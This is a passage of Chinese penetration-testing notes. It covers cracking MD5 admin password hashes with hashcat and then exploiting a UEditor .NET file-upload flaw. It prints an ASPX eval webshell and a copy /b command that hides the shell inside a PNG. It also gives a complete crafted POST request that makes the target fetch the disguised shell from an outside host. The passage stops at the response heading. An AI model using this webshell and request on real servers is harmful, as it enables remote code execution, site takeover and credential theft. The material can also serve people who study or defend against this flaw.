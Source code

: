 
*重点关注存有后台密码的表*


MySQL低版本下，默认加密方式市MD5，可以通过md5撞库获取原文
离线版本下可以尝试 `hashcat` kali自带,需要自己收集字典

通过目录爆破或者直接猜解的方式登录cms后台

#### 例三

UEditor 文件上传漏洞

测试漏洞

```
http://10.3.4.131/UEditor/net/controller.ashx?action=catchimage
```


图片马制作，图片尽量选择比较小的，大的图片容易被二次渲染导致木马失效

生成一个asp的木马文件

```aspx
<%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>
```

然后执行

```
copy book.png/b + 3.aspx shell.png
```

即可生成一个图片马

最后构造数据包

```
POST /UEditor/net/controller.ashx?action=catchimage HTTP/1.1
Host: 10.3.4.131
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Google Chrome";v="100", "Chromium";v="100", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
 
source[]=http://192.168.198.227:8081/shell.png?.aspx
```


响应结果
